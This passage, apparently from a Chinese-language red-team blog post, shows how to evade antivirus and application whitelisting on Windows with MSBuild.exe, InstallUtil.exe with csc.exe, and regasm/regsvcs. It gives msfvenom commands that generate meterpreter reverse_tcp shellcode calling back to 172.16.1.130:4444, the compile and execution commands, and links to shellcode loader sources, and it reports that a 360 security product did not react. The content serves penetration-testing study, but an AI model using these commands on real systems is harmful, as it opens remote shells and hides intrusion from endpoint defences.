 在目标机器上运行

```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319>MSBuild.exe "C:\Users\jack.0DAY\Desktop\exec.xml"
```

然后会话上线，某数字卫士无反应，并且正常执行命令

![360数字卫士](https://y4er.com/img/uploads/20190719154312.png)

更多关于msbuild的内容可以参考[三好学生师傅的文章](https://3gstudent.github.io/3gstudent.github.io/Use-MSBuild-To-Do-More/)

### Installutil.exe&csc.exe

> Installer工具是一个命令行实用程序，允许您通过执行指定程序集中的安装程序组件来安装和卸载服务器资源。此工具与System.Configuration.Install命名空间中的类一起使用。 
>
> 具体参考：[Windows Installer部署](https://docs.microsoft.com/zh-cn/previous-versions/2kt85ked(v=vs.120))

通过msfvenom生成C＃的shellcode
```powershell
msfvenom -p windows/meterpreter/reverse_tcp lhost=172.16.1.130 lport=4444 -f csharp
```

下载InstallUtil-Shellcode.cs，将上面生成的shellcode复制到该cs文件中


https://gist.github.com/lithackr/b692378825e15bfad42f78756a5a3260


csc编译InstallUtil-ShellCode.cs

```powershell
C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe /unsafe /platform:x86 /out:D:\test\InstallUtil-shell.exe D:\test\InstallUtil-ShellCode.cs
```

编译生成的文件后缀名无所谓exe dll txt都可以，但只能InstallUtil.exe来触发

InstallUtil.exe执行 反弹shell

```powershell
C:\Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /logfile= /LogToConsole=false /U D:\test\InstallUtil-shell.exe
```
参考https://www.blackhillsinfosec.com/how-to-bypass-application-whitelisting-av/

### regasm和regsvcs

regasm和regsvcs都可以用来反弹shell的，而且方式也一样

[下载这个cs文件](https://github.com/3gstudent/Bypass-McAfee-Application-Control--Code-Execution/blob/master/regsvcs.cs) ，然后替换你的shellcode

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=172.16.1.130 lport=4444 -f csharp
```

使用sn.exe生成公钥和私钥，如果没有sn命令你可能需要安装vs
